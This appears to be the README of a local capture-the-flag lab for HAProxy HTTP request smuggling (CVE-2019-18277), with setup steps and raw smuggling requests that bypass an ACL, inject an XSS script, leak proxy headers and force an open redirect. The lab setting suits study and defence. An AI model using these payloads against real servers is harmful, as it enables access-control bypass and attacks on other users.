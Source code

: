 # Lab HAProxy HTTP request smuggling - CVE-2019-18277

### Info

There are HTTP Smuggling CL.TE(TE.TE) issues in HAProxy < 2.0.6

Threr are three flags
* Using HTTP method GPOST to /
* Try to access /flag. You need bypass ACL
* Try to get your reqeust header

### Composition
* ReverseProxy: HAProxy 1.9.10
* Backend: Gunicorn 20.0.0

### Usage

Run 
``` bash
chmod +x src/haproxy
docker-compose up
```

Go http://127.0.0.1:10081/

### Testing

Run
```
./check.sh
```

You will get two flag

### HTTP Requests
If it's not success, try to send the request one more time.
Replace [\x0b] with 0b byte. Enter %0b and URL decode it.

##### Use GPOST verb
```
POST / HTTP/1.1
Content-Length: 6
Transfer-Encoding:[\x0b]chunked

0

G
```

##### Bypass ACL to access /flag
```
POST / HTTP/1.1
Content-Length: 28
Transfer-Encoding:[\x0b]]chunked

0

GET /flag HTTP/1.1
a: 
```

##### XSS
Use Burp to send request, then open browser to http://127.0.0.1:10081
If the browser doesn't alert(1), try it one more time
```
POST / HTTP/1.1
Content-Length: 128
Transfer-Encoding:[\x0b]chunked

0

POST /echo HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

msg=<script>alert(1)</script>//
```

##### Get headers added by proxy
```
POST / HTTP/1.1
Content-Length: 102
Transfer-Encoding:[\x0b]chunked

0

POST /echo HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 105

msg=
```


#### Open Redirect
Use Burp to send request, then open browser to go htpp://127.0.0.1:10081/
If the browser doesn't redirect to ww.google.com, try it one more time
```
POST / HTTP/1.1
Content-Length: 63
Transfer-Encoding:[\x0b]]chunked

0

POST /redirect HTTP/1.1
Host: www.google.com/?a=
a: asdf
```





### Reference:
* https://nathandavison.com/blog/haproxy-http-request-smuggling



